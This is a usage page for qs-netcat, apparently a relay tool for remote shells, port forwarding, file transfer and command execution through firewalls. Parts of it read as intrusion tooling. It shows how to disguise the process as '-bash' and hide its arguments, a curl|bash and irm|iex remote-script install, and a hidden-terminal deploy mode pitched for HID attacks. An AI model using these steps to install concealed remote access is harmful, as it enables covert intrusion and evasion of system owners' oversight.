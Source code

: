 ```yaml
---
title: 'Examples'
toc: false
---
```


# Usage Examples

---

<div align="center">
  <video width="1024" height="800" controls>
    <source src="https://user-images.githubusercontent.com/17179401/221196823-5c6e3a66-3b06-410a-9d2b-33efd101428a.mp4" type="video/mp4">
  </video>
</div> 

---

<details>
<summary>RDP connection over QSRN</summary>

<video width="760" height="500" controls>
  <source src="https://github.com/qsocket/qs-netcat/assets/17179401/af46c8fb-cb33-483a-b5c1-9142843da2bd" type="video/mp4">
</video>
</details>

<details>
<summary>ADB access over QSRN</summary>

<video width="760" height="500" controls>
  <source src="https://user-images.githubusercontent.com/17179401/216651601-6ddc8ddf-7248-4c2b-bd77-00f00f773c80.mov" type="video/mp4">
</video>
</details>

**Usage:**

- Log in to Workstation A from Workstation B through any firewall/NAT
```bash
qs-netcat -l -i   # Workstation A
qs-netcat -i      # Workstation B
```

- SSH from *Workstation A* to *Workstation B* by port forwarding through any firewall/NAT
```bash
qs-netcat -l                    # Workstation B
qs-netcat -f "22:localhost:22"  # Workstation A
ssh user@localhost              # Workstation A
```

- Transfer files from *Workstation B* to *Workstation A* using smart pipes
```bash
qs-netcat -s MySecret -l > file.txt     # Workstation A
qs-netcat -s MySecret < file.txt        # Workstation B
```

- Port forward. Access 192.168.6.7:80 on Workstation A's private LAN from Workstation B:
```bash
qs-netcat -l                  # Workstation A
qs-netcat -f 192.168.6.7:80   # Workstation B
```

- Execute any command (nc -e style) on *Workstation A*
```bash
qs-netcat -l                         # Workstation A
qs-netcat -e "echo hello_world; id"  # Workstation B
```
- Access entirety of Workstation A's private LAN (Sock4/4a/5 proxy)
```bash
qs-netcat -l                    # Workstation A
qs-netcat -f "22:localhost:22"  # Workstation B
ssh -D 9090 root@localhost      # Workstation B
# Access www.google.com via Workstation A's private LAN from your Workstation B:
curl --socks4a 127.1:9090 http://www.google.com
```

- Mount a remote folder of Workstation A using sshfs and qs-netcat
```bash
qs-netcat -l                    # Workstation A
qs-netcat -f "22:localhost:22"  # Workstation B
sudo sshfs -o allow_other,default_permissions root@localhost:/remote_dir /mnt/local_dir # Workstation B
```

**Pro Tips**
- Hide your arguments (argv)

Pass the arguments by environment variable (QS_ARGS) and use a bash-trick to hide qs-netcat binary in the process list:
```bash
export QS_ARGS="-s MySecret -l -i -q"
exec -a -bash ./qs-netcat &     # Hide as '-bash'.
ps alxww | grep qs-netcat
ps alxww | grep -bash
#  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

# Deploy Examples

#### Deploy with a spesific secret value

```bash
S="MySecret" curl -fsSL qsocket.io/0 | bash # For *nix
```
```powershell
$Env:S="MySecret"; irm qsocket.io/1 | iex  # For Windows
```
#### Hide Terminal During Deploymeny
This option can be usefull during HID attacks.

```bash
HIDE=1 curl -fsSL qsocket.io/0 | bash # For \*nix
```
```powershell
$Env:HIDE=1; irm qsocket.io/1 | iex # For Windows
```
